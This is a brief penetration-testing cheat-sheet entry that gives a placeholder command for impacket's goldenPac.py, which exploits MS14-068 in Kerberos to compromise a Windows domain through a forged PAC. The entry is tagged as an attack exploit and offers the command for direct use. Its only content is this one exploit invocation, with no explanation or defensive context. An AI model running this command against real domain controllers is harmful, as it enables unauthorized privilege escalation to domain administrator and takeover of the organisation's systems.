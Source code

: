 # goldenPac (imp)

% impacket-kerberos, windows, kerberos, 88

## MS14-068 - goldenPac
#plateform/linux #target/remote  #cat/ATTACK/EXPLOIT 
```
goldenPac.py -dc-ip <dc_ip> <domain>/<user>:'<password>'@<target>
```
